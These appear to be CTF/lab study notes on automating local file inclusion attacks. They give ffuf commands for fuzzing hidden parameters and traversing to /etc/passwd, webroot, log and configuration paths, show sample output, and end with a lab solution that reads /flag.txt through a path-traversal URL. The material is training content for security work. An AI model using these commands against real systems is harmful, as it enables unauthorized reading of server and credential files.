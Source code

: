 # 🍬 Automation and Prevention

It's important to always fuzz a web app beceause the page may have other exposed parameters that are **not linked to any HTML forms**, and hence normal users would never access or unintentionally cause harm through.

fuzz the page for common `GET` parameters ->

```
ffuf -w /opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value' -fs 2287
```

And once we found a hidden param, we can do our LFI tests. A good wordlist is [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt), as it contains various bypasses and common files

```
ffuf -w /opt/useful/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287
```

With some output that would look like this:

```
..%2F..%2F..%2F%2F..%2F..%2Fetc/passwd [Status: 200, Size: 3661, Words: 645, Lines: 91]
../../../../../../../../../../../../etc/hosts [Status: 200, Size: 2461, Words: 636, Lines: 72]
...SNIP...
../../../../etc/passwd  [Status: 200, Size: 3661, Words: 645, Lines: 91]
```

We must also try and fuzz for `Server webroot path`, `server configurations file`, and `server logs`.

we can fuzz for the `index.php` file through common webroot paths, which we can find in this [wordlist for Linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt) or this [wordlist for Windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt). Depending on our LFI situation, we may need to add a few back directories (e.g. `../../../../`), and then add our `index.php` afterwords.

```
ffuf -w /opt/useful/SecLists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs 2287
```

and the output would be something like:

```shell-session
/var/www/html/          [Status: 200, Size: 0, Words: 1, Lines: 1]
```

To find **server logs and configuration paths,** we can use this [wordlist for Linux](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux) or this [wordlist for Windows](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Windows)

```shell-session
ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs 2287
```

output:

```shell-session
<SNIP>
/etc/hosts              [Status: 200, Size: 2461, Words: 636, Lines: 72]
/etc/hostname           [Status: 200, Size: 2300, Words: 634, Lines: 66]
<SNIP>
```

{% hint style="info" %}
The most common LFI tools are [LFISuite](https://github.com/D35m0nd142/LFISuite), [LFiFreak](https://github.com/OsandaMalith/LFiFreak), and [liffy](https://github.com/mzfr/liffy).
{% endhint %}

_**Fuzz the web application for exposed parameters, then try to exploit it with one of the LFI wordlists to read /flag.txt**_

```
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://94.237.53.113:55545/index.php?FUZZ=value' -fs 2309
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
ffuf -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://94.237.53.113:55545/index.php?view=FUZZ' -fs 1935
```

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p><a href="http://94.237.53.113:55545/index.php?view=../../../../../../../../../../../../../../../../../../../../../../flag.txt">http://94.237.53.113:55545/index.php?view=../../../../../../../../../../../../../../../../../../../../../../flag.txt</a></p></figcaption></figure>
